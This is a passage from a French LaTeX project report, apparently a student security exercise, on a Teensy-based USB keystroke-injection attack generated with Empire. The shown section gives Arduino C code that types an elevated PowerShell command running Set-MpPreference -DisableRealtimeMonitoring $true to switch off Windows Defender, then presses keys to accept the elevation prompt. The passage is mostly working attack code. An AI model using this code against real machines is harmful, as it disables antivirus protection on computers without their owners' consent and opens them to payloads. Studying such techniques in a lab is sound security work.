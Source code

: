 \includegraphics[scale=0.48]{images/SEN_Projet_Image09.png}

\subsubsection{Bypass Winodws Defender}

Dans l'exemple précédent, si l'ordinateur était équipé de Windows Defender, le payload était bloqué, nous allons donc
devoir désactiver Windows Defender avec le Teensy.

Pour ce faire il faut éditer le script Arduino produit par “Empire” et ajoutez ces quelques lignes:

\begin{lstlisting}{language=c}
void sendKey(uint8_t keyin){
  clearKeys();
  Keyboard.set_key1(keyin);
  Keyboard.send_now();
  clearKeys();
  delay(200);
}
\end{lstlisting}

La fonction "sendKey()" vient de ce site: \url{https://www.securitysift.com/fun-with-teensy/}, j'ai eu quelques problèmes avec les différences de délai entre
ma VM Windows et ma machine local, j'ai donc décider d'utiliser cette fonction afin de régler ces problèmes.

Elle permet simplement d'envoyer des frappes clavier, mais elle réinitialise à chaque fois l'état des touches de contrôle (CAPS LOCK par exemple).

\begin{lstlisting}{language=c}
Keyboard.print("powershell -Command \"Start-Process PowerShell -ArgumentList '-Command Set-MpPreference -DisableRealtimeMonitoring $true' -Verb RunAs\"");
sendKey(KEY_ENTER);
sendKey(KEY_LEFT);
sendKey(KEY_LEFT);
sendKey(KEY_ENTER);
\end{lstlisting}

